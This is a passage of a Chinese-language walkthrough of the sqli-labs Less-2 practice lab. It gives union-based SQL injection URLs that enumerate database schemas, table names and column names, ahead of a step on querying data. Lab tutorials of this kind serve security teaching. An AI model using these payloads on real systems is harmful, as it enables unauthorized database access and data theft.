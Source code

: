 ```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata
```

#### 查询数据库对应的表名

![查询数据库对应的表名](./assets/20250210/beee217dc0604e5b8dcd475ff5122971.png)

```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=0x74657374
```

#### 查询表名对应的字段名

![查询表名对应的字段名](./assets/20250210/98147d95f6924eff8b3f11a13b72c64d.png)

```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=0x7431
```

#### 查询数据

![查询数据](./assets/20250210/8ad3eec54671488aa6cbc62f171144aa.png)

